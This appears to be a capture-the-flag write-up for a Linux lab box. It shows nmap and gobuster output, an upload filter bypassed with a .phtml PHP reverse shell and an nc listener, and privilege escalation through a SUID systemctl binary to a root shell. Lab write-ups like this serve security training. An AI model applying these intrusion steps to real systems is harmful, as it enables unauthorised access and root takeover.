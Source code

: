 Got some help from John Hammond for privledge escalation: https://www.youtube.com/watch?v=hvYWCegfEZs

## NMAP
```
└─$ nmap -sV $IP
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-18 20:19 PST
Nmap scan report for <IP>
Host is up (0.15s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.82 seconds
```

## GOBUSTER
```
/images               (Status: 301) [Size: 320] [--> http://<IP>:3333/images/]
/css                  (Status: 301) [Size: 317] [--> http://<IP>:3333/css/]
/js                   (Status: 301) [Size: 316] [--> http://<IP>:3333/js/]
/fonts                (Status: 301) [Size: 319] [--> http://<IP>:3333/fonts/]
/internal             (Status: 301) [Size: 322] [--> http://<IP>:3333/internal/]
```

STEPS TO COMPLETE:

Created fuzzer.py to check for allowed file extension uploads. Found .phtml is allowed

downloaded php reverse shell from https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Changed extension on file to .phtml and uploaded it to vulnerable server

use nc to listen on port 4444. `nc -lvnp 4444`

Navigated to http://<IP>:3333/internal/uploads/php-reverse-shell.phtml in web browser.

Gained reverse shell. (unstable)

Find files with suid
find / -perm -4000 2>/dev/null

/bin/systemctl stands out

check gtfobins for systemctl payload

modify payload to add suid to /bin/bash

run `bash -p`

root permissions. cd into /root/ and cat flag file

